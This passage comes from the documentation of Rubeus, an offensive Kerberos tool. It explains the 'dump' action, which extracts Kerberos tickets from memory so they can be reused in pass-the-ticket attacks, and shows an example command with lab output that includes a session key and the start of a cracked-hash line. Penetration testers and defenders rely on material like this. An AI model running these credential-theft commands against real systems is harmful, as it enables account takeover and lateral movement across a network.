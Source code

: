         $krb5asrep$TestOU3user@testlab.local:6AC7726...(snip)...

    ...(snip)...


## dump

The **dump** action will extract current TGTs and service tickets from memory, if in an elevated context. If not elevated, tickets for the current user are extracted. The resulting extracted tickets can be filtered by /service (use /service:krbtgt for TGTs) and/or logon ID (the /luid:X parameter). The KRB-CRED files (.kirbis) are output as base64 blobs and can be reused with the ptt function, or Mimikatz's **kerberos::ptt** functionality.

    c:\Temp\tickets>Rubeus.exe dump /service:krbtgt /luid:366300

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0


    [*] Action: Dump Kerberos Ticket Data (All Users)

    [*] Target LUID     : 0x596f6
    [*] Target service  : krbtgt


      UserName                 : harmj0y
      Domain                   : TESTLAB
      LogonId                  : 366326
      UserSID                  : S-1-5-21-883232822-274137685-4173207997-1111
      AuthenticationPackage    : Kerberos
      LogonType                : Interactive
      LogonTime                : 9/17/2018 9:05:26 AM
      LogonServer              : PRIMARY
      LogonServerDNSDomain     : TESTLAB.LOCAL
      UserPrincipalName        : harmj0y@testlab.local

        [*] Enumerated 1 ticket(s):

        ServiceName              : krbtgt
        TargetName               : krbtgt
        ClientName               : harmj0y
        DomainName               : TESTLAB.LOCAL
        TargetDomainName         : TESTLAB.LOCAL
        AltTargetDomainName      : TESTLAB.LOCAL
        SessionKeyType           : aes256_cts_hmac_sha1
        Base64SessionKey         : AdI7UObh5qHL0Ey+n28oQpLUhfmgbAkpvcWJXPC2qKY=
        KeyExpirationTime        : 12/31/1600 4:00:00 PM
        TicketFlags              : name_canonicalize, pre_authent, initial, renewable, forwardable
        StartTime                : 9/17/2018 4:20:25 PM
        EndTime                  : 9/17/2018 9:20:25 PM
        RenewUntil               : 9/24/2018 2:05:26 AM
        TimeSkew                 : 0
        EncodedTicketSize        : 1338
        Base64EncodedTicket      :
